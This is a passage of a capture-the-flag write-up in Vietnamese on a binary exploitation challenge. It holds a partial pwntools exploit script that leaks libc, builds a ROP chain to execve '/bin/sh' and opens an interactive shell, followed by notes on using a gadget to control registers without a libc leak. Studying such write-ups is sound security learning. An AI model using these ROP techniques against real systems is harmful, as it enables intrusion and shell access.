 ```python
        0x0000000000401211,
        elf.sym.main] # This is the value at address 0x0000000000404150
})
log.info(f'Sending payload: {payload}')
log.info(f'length: {len(payload)} bytes')
log.info(f'RBP({hex(0x404038) }) + LEN({hex(len(payload)-16)}) = {hex(0x404038 + len(payload)-16)} Main address in .bss: {hex(0x404150)}')
p.sendline(payload)

p.recvline()
p.recvline()
# p.recvline()
libc_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = libc_leak - libc.sym.puts
log.success(f'{hex(libc.address) = }')

rop = ROP(libc)
rop.rdi = next(libc.search(b'/bin/sh\x00'))
rop.rsi = 0
rop.rbp = 0x404198
rop.raw(libc.address + 0x00000000000981ad) # pop rdx ; leave ; ret
rop.raw(0)
rop.execve()

print(rop.dump())

p.sendline(flat({
    0x28: rop.chain()
}))

p.interactive()

```

- vì khá lười nên ý tưởng là zạy thoi , ta sẽ tìm những wu hay hay :3 

đầu tiên đối với những bài chưa leak được libc thì gadget này khá là .. 

```asm
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

- tiếp theo là cái này , nhờ vào đoạn này -> nếu control `rdx` ta sẽ control `rbx`

![image](https://hackmd.io/_uploads/rkUyda0Vxg.png)

![image](https://hackmd.io/_uploads/rJ_PlC0Eex.png)



cuối cùng là đoạn này , `rbp` là `reg` hoàn toàn có thể control -> ta control được rdx -> control được `rbx` , vậy kết hợp với cái gadget đầu tiên thì ta hoàn toàn không cần leak libc , tuy nhiên còn tùy thuộc vào `one_gadget` có thõa hay không nên cách này không khuyến kích  ....
